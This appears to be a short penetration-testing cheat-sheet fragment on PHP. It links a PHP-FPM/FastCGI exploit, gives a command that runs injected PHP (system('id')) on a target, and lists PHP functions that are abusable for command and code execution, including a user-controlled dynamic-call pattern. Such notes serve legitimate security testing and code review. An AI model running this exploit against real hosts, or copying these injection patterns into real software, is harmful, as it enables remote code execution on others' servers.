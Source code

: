   - phpinfo
    - PHP-FPM/FastCGI [exploit](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)
      - `python3 fpm.py -c "<?php system('id'); ?>" -p <port> <potentially_vulnerable_ip> /var/www/html/<path_to_php_file_found_within_phpinfo> | head -n 10`
    - Exploitable functions (CMD execution)
        - exec           - Returns last line of commands output
        - passthru       - Passes commands output directly to the browser
        - system         - Passes commands output directly to the browser and returns last line
        - shell_exec     - Returns commands output
        - `` (backticks) - Same as shell_exec()
        - popen          - Opens read or write pipe to process of a command
        - proc_open      - Similar to popen() but greater degree of control
        - pcntl_exec     - Executes a program
    - PHP Code Execution
        - eval()
        - assert()  - identical to eval()
        - preg_replace('/.*/e',...) - /e does an eval() on the match
        - create_function()
        - include()
        - include_once()
        - require()
        - require_once()
        - $_GET['func_name']($_GET['argument']);
        - $func = new ReflectionFunction($_GET['func_name']); $func->invoke(); or $func->invokeArgs (array- ));